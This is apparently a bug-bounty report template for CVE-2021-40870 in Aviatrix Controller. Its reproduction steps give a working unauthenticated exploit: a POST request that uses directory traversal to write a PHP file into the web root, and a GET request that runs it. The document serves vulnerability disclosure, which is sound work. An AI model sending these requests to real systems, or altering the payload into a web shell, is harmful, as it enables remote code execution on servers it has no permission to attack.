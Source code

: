 ## CVE-2021-40870 on [$DOMAIN]

An issue was discovered in Aviatrix Controller 6.x before 6.5-1804.1922. Unrestricted upload of a file with a dangerous type is possible, which allows an unauthenticated user to execute arbitrary code via directory traversal.




## Steps To Reproduce

First, run this request:
```
POST /v1/backend1 HTTP/1.1
Host: $DOMAIN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Connection: close
Content-Length: 136
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

CID=x&action=set_metric_gw_selections&account_name=/../../../var/www/php/1yv4QQmkj4h4OdmmyT11tkiGf5M.php&data=RCE<?php phpinfo()?>

```
The retrieve the content from file ``1yv4QQmkj4h4OdmmyT11tkiGf5M.php``

```
GET /v1/1yv4QQmkj4h4OdmmyT11tkiGf5M.php HTTP/1.1
Host: $DOMAIN
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.67 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
```
Which is basically the output of the phpinfo function:

Response (truncated): 
```
 $PHPINFO HERE
 ```
 
## Impact

-   An unauthenticated, 3rd-party attacker or adversary can execute remote code
 
### Supporting Material/References
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-40870



